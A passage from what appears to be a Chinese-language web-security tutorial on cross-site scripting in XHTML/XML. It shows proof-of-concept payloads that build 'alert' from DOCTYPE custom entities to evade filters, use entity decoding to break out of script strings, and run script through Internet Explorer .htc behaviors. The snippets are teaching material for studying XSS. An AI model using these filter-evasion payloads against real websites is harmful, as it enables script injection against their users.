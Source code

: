 甚至可以通过JavaScript修改错误页面的内容（在Firefox中可执行）：

```
<html xmlns="http://www.w3.org/1999/xhtml"> 
<p>
<script>
setTimeout(function(){ document.activeElement.textContent='hello world' },1);
</script>
</html>

```

XML的编码规范与HTML非常相似，可以用entity编码属性值。 在XML中，我们可以在DOCTYPE中自定义entity，甚至通过URL引入外部文件：

```
<!DOCTYPE xss [<!ENTITY x "&#x61;l&#x26;y;"><!ENTITY y "ert">]>
<html xmlns="http://www.w3.org/1999/xhtml">
<script>&x;(document.domain);</script>
</html>

```

上面代码定义了一个&y变量为"ert"，&x为"al&y"（a与&符号编码了一下），即alert，

```
<!DOCTYPE xss [<!ENTITY _k "&#x61;l&#x26;__;"><!ENTITY __ "ert" > ]>
<script xmlns="http://www.w3.org/1999/xhtml">
&lt;!--&#10;&_k;(1&#x000029;
</script>

```

在xml中，包括script标签内的代码浏览器都会entity解码后执行，这点很有用：

```
<script xmlns="http://www.w3.org/1999/xhtml">
a='&#x27;,alert(1)//';
b='&#39;,alert(2)//';
c='&apos;,alert(3)//';
</script>

```

从5.5版本开始，Internet Explorer（IE）开始支持Web 行为的概念。

这些行为是由后缀名为.htc的脚本文件描述的，它们定义了一套方法和属性，几乎可以把这些方法和属性应用到HTML页面上的任何元素上去。

HTML中可以通过加载CSS的behavior的方式调用htc文件，仅支持同域调用：

```
//HTML文件代码：
<html>
<head>
<style>body { behavior: url(test.htc);}</style> </head>
<body>Hello</body>
</html>
//htc文件代码：
<PUBLIC:COMPONENT>
<PUBLIC:ATTACH EVENT="onclick" ONEVENT="alert(1)" />
</PUBLIC:COMPONENT>

```
